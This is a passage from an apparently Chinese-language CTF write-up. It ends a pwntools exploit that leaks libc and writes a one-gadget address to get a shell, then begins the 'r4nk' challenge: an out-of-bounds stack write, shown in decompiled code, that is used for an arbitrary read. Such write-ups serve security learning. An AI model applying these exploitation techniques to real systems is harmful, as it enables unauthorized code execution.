 ```
libc_base = puts_address - libc.symbols["puts"]
print("libc @  " + hex(libc_base))
pause()
if debug:
    one_gagdet = libc_base + 0x4f2c5
else:
    one_gagdet = libc_base + 0x4f2c5

# exploit a second time
p.recvuntil("LIKE TO GO?")
p.recvline()
for i in range(0xe):
    tosend = byte_to_float(chr(i)*4)
    p.sendline(tosend)

# one gadget
write_8_bytes(p64(one_gagdet))
p.sendline("done")

# trigger return to main
# BOF at end of main -> ret

p.interactive()
```

### r4nk

这道题是一个关于电影排名的程序，
通过rank可以修改栈上的内容，这样我们可以改一个打印函数的偏移值，进而进行泄露。

```
__int64 __fastcall Rank(__int64 a1)
{
  __int64 v1; // rbx
  __int64 result; // rax

  write(1, "\nt1tl3> ", 9uLL);
  v1 = (signed int)my_read();
  write(1, "r4nk> ", 7uLL);
  result = (signed int)my_read();
 修改stack content-> *(_QWORD *)(a1 + 8 * v1) = (signed int)result;// a1 + 8*17
  return result;
}
```

所以我们可以利用这个特点来写入特殊的东西泄露libc地址，然后再show的时候，就会去读取特定地址的内容，从而泄露libc，也就是说我们就有了任意地址读的操作

```
addr_list = 0x602080 # movie list
addr_buf = 0x602100 # buf
rank(0, (addr_buf - addr_list) // 8 + 1) # rank(0, 0x11)
```
